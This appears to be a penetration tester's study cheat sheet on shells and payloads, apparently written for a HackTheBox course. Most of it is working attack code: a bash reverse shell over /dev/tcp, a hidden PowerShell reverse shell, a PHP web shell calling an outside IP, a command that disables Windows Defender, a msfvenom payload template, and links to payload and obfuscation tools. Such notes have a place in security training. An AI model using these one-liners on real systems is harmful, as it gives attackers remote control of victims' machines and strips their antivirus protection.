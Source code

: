 # Shells & Payloads

## Reverse shell

Linux -> bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

Windows ->&#x20;

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell-session
Set-MpPreference -DisableRealtimeMonitoring $true
```

## MSFvemon

msfvenom -l payloads

linux pipes to .elf

windows pipes to .exe

Comand is:  msfvenom -p \<PATH\_TO\_ EXPLOIT> LHOST=\<IP> LPORT=\<PORT> -f \<elf/exe> > \<OUT>

## Payloads

[This](https://swisskyrepo.github.io/PayloadsAllTheThings/) is a good resource for payloads
[This](https://github.com/bats3c/darkarmour) is a good resource for obfuscated windows binaries


Msfconsole is a very easy tool and makes things very automated! Use search to look for exploits

Shell upgrades in the case of no python [here](https://academy.hackthebox.com/module/115/section/1117)

## Web shells

Laudanum - Come with installed ready to go web exploits only works on very easy targets. You do have to do some manual configuration. Like adding your local ip to the allowed list.

## Antak & IPPSEC

[https://ippsec.rocks/](https://ippsec.rocks/) -> Is a great resource for learning and checking out new technologies he may have spoken about.

```
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.25/9000 0>&1'"); ?>
```

## Nishang

Come with a bunch on compiled payloads for different atack surfaces. Antak is themed like powershell and used for windows shells

## PHP webshells

[winterWolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) -> nice one for php webshells provides clear stuff

